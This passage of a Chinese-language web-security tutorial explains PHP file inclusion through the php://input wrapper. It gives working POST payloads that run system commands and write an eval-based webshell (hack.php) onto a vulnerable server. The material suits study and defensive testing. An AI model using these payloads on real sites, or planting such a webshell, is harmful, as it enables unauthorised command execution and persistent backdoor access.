 碰到`file_get_contents()`就要想到用`php://input`绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据。

`file_get_contents()`：这个函数就是把一个文件里面的东西 （字符）全部return出来作为字符串。

- 除此之外，通过实践我发现这个函数如果直接把字符串当作参数会报错，但如果包含的是http协议的网址，则会像`curl`命令一样，把源码读出来。而php伪协议也是识别http协议的，所以说上面`php://input`可以将POST的数据读过来来赋值给参数。

**测试代码：**

```php
<?php
    echo file_get_contents("php://input");
?>
```

结果：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-690db62263e312d5dffc7dc3ece6b26c0e65f121.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-690db62263e312d5dffc7dc3ece6b26c0e65f121.png)

#### php://input（命令执行）

利用条件：

1. allow\_url\_include = On。
2. 对allow\_url\_fopen不做要求。

姿势：

```php
fileinclude.php?file=php://input

POST:
<?php system('whoami'); ?>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5b053f72669d9b3aa21aee2a284a6c537cb7d0c6.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5b053f72669d9b3aa21aee2a284a6c537cb7d0c6.png)

#### php://input（写入木马）

利用条件：

1. allow\_url\_include = On。
2. 对allow\_url\_fopen不做要求。

姿势：

```php
fileinclude.php?file=php://input

POST:
<?php fputs(fopen('hack.php','w'),'<?php @e val($_POST[v])?>');?>
```

执行完，同目录下便生成了马儿：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-533c51f4f0a3c7ef6d0a60b7b3099aba9e709fc8.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-533c51f4f0a3c7ef6d0a60b7b3099aba9e709fc8.png)
